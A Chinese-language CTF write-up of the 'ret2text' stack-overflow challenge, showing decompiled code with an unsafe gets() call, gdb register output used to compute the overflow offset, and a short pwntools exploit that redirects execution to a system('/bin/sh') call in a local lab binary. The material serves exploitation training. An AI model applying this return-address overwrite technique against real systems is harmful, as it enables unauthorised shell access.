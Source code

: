 ------

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("There is something amazing here, do you know anything?");
  gets((char *)&v4);
  printf("Maybe I will tell you next time !");
  return 0;
}
```

首先找到了gets()函数，存在栈溢出漏洞。然后在secure函数中(给出了完整的文件，再经过IDA反编译)找到了system("/bin/sh")的调用(两句代码)。通过改变返回地址直接执行这条语句，就能拿到shell。 属于较简单的ROP，因为拿到shell的语句位置明显，以后拿到题可以直接Ctrl+F试试运气，或者利用 ropgadget，查看是否有 /bin/sh 存在。

```
.text:080486A7                 lea     eax, [esp+1Ch]
.text:080486AB                 mov     [esp], eax      ; s
.text:080486AE                 call    _gets
```

由于此处反编译显示，该缓冲区的最高点是通过esp索引的，所以需要通过调试，确认其相对于ebp的地址。

```
gef➤  b *0x080486AE
Breakpoint 1 at 0x80486ae: file ret2text.c, line 24.
gef➤  r
There is something amazing here, do you know anything?

Breakpoint 1, 0x080486ae in main () at ret2text.c:24
24      gets(buf);
───────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0xffffcd5c  →  0x08048329  →  "__libc_start_main"
$ebx   : 0x00000000
$ecx   : 0xffffffff
$edx   : 0xf7faf870  →  0x00000000
$esp   : 0xffffcd40  →  0xffffcd5c  →  0x08048329  →  "__libc_start_main"
$ebp   : 0xffffcdc8  →  0x00000000
$esi   : 0xf7fae000  →  0x001b1db0
$edi   : 0xf7fae000  →  0x001b1db0
$eip   : 0x080486ae  →  <main+102> call 0x8048460 <gets@plt>
```

断点下在Call处**<u>为什么是这个Call处？</u>**(断点处的语句还没有执行)，可以获取esp，ebp的确切值，已知buf最高点相对于esp的长度，得到buf最高点确切值，得到buf最高点相对于ebp的长度，再加上4就是需要填充的字符串长度。

每次反编译出来，开头的ebp-xx都是该buf的结束位置，而不是开始位置(栈是由高向低生长的，减了反而要高)，而当前状态下ebp是指向输入的，所以buf的长度就等于两者相减。**计算长度，一般都是两十六进制数相减得到的十六进制加上一个十进制的4(32位的话)。**

EXP如下：

```
##!/usr/bin/env python

from pwn import *

sh = process('./ret2text')

target = 0x0804863a

sh.sendline('A' * (0x6c+4) + p32(target))

sh.interactive()
```
